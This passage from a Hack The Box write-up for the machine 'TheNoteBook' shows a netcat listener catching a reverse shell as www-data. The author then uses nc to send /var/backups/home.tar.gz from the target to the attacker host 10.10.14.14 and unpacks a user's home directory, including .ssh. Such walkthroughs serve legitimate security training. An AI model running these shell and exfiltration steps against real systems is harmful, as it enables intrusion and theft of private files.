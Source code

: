 And Click on "View" button (also intercept the request and change ```auth``` token), and we got shell:

```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
10.10.10.230: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.230] 43298
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 01:39:57 up  3:13,  0 users,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

From [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see ```/var/backups/home.tar.gz``` file.

We can get hint for this file without ```linpeas```.

Let's click on ```Notes``` on web page with ```admin``` token and we will see:

![backupsnotes.JPG](images/backupsnotes.JPG)

And we know the backups file usually located on ```/var/backup```.

So let's get ```home.tar.gz``` file using ```nc```:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/backups]
└──╼ $nc -lvp 1111 > home.tar.gz
```

And from ```www-data``` shell:
```console
$ cd /var/backups
$ ls
apt.extended_states.0
apt.extended_states.1.gz
apt.extended_states.2.gz
home.tar.gz
$ nc 10.10.14.14 1111 < home.tar.gz
```

Let's look at ```home.tar.gz``` file:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/backups]
└──╼ $tar xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
```